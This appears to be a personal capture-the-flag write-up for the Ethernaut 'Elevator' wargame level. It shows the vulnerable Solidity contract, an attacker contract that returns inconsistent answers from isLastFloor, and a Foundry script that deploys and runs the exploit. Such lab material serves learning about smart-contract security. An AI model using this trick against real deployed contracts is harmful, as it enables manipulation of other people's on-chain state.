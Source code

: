 ```yaml
---
title: "Elevator"
date: "2024-02-05"
lastmod: "2024-02-14T16:51:00.000Z"
draft: false
difficulty: "⭐⭐"
prev: "Re-entrancy-6ea65e4888e349dabdc4ca12c8e6d22d"
weight: 12
state: "Terminé"
level-url: "https://ethernaut.openzeppelin.com/level/11"
next: "Privacy-0141c59931824d74a8311099eb338d5d"
type: "docs"
NOTION_METADATA:
  object: "page"
  id: "59c41c69-4afa-45c6-8e60-3000da840a2e"
  created_time: "2024-02-12T13:39:00.000Z"
  last_edited_time: "2024-02-14T16:51:00.000Z"
  created_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  last_edited_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  cover: null
  icon:
    type: "external"
    external:
      url: "https://ethernaut.openzeppelin.com/imgs/BigLevel11.svg"
  parent:
    type: "database_id"
    database_id: "cb6853ff-d731-4d6a-9080-6c8efeec5b1c"
  archived: false
  properties:
    difficulty:
      id: "IAjo"
      type: "select"
      select:
        id: "2fa50c76-9c63-4f19-b03a-b8fb1889da7c"
        name: "⭐⭐"
        color: "blue"
    prev:
      id: "LLP%5C"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Re-entrancy-6ea65e4888e349dabdc4ca12c8e6d22d"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Re-entrancy-6ea65e4888e349dabdc4ca12c8e6d22d"
          href: null
    date:
      id: "Y%40Gy"
      type: "date"
      date:
        start: "2024-02-05"
        end: null
        time_zone: null
    weight:
      id: "%5Dyda"
      type: "number"
      number: 12
    state:
      id: "f%40ps"
      type: "status"
      status:
        id: "abb7fad3-add1-4b13-946c-06bff36598bf"
        name: "Terminé"
        color: "green"
    level-url:
      id: "juZs"
      type: "url"
      url: "https://ethernaut.openzeppelin.com/level/11"
    next:
      id: "pocA"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Privacy-0141c59931824d74a8311099eb338d5d"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Privacy-0141c59931824d74a8311099eb338d5d"
          href: null
    type:
      id: "s%7DKc"
      type: "select"
      select:
        id: "OnJy"
        name: "docs"
        color: "default"
    title:
      id: "title"
      type: "title"
      title:
        - type: "text"
          text:
            content: "Elevator"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Elevator"
          href: null
  url: "https://www.notion.so/Elevator-59c41c694afa45c68e603000da840a2e"
  public_url: null
UPDATE_TIME: "2024-02-14T17:10:47.490Z"

---
```

<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/katex@0.16.2/dist/katex.min.css" integrity="sha384-bYdxxUwYipFNohQlHt0bjN/LCpueqWz13HufFEV1SUatKs1cm4L6fFgCi1jT643X" crossorigin="anonymous">


---


title: Elevator
weight: 4
type: docs
next: re-entrancy
prev: privacy


[Level11](https://ethernaut.openzeppelin.com/level/11) - ⭐⭐


---


This elevator won't let you reach the top of your building. Right?


### Things that might help:

- Sometimes solidity is not good at keeping promises.
- This `Elevator` expects to be used from a `Building`.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```


Solution:


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

interface Elevator {
  function top() external view returns(bool); 
  function floor() external view returns(uint); 
  function goTo(uint _floor) external; 
}

contract Building {
  Elevator public elevator;
  bool lastFloor;

  function installElevator(address _elevator) public {
    elevator = Elevator(_elevator);  
  }

  function isLastFloor(uint) public returns (bool) {
    if (lastFloor == false) {
      lastFloor = true;
      return false;
    }
    return true;
  }

  function attack(uint _floor) public {
    elevator.goTo(_floor); 
  }
}
```


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";

import {Building} from "../src/11.sol";

interface Elevator {
  function top() external view returns(bool); 
  function floor() external view returns(uint); 
  function goTo(uint _floor) external; 
}

contract POC is Script {
    function run() external {
        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address addr = vm.envAddress("INSTANCE_11");

        vm.startBroadcast(deployerPrivateKey);

        console.logUint(address(addr).balance);

        Elevator elevator = Elevator(addr);

        Building building = new Building();
        building.installElevator(addr);

        console.logBool(elevator.top());
        console.logUint(elevator.floor());

        building.attack(0);

        console.logBool(elevator.top());
        console.logUint(elevator.floor());

        vm.stopBroadcast();

    }
}
```


You can use the `view` function modifier on an interface in order to prevent state modifications. The `pure` modifier also prevents functions from modifying the state.
Make sure you read [Solidity's documentation](http://solidity.readthedocs.io/en/develop/contracts.html#view-functions) and learn its caveats.


An alternative way to solve this level is to build a view function 
which returns different results depends on input data but don't modify 
state, e.g. `gasleft()`.

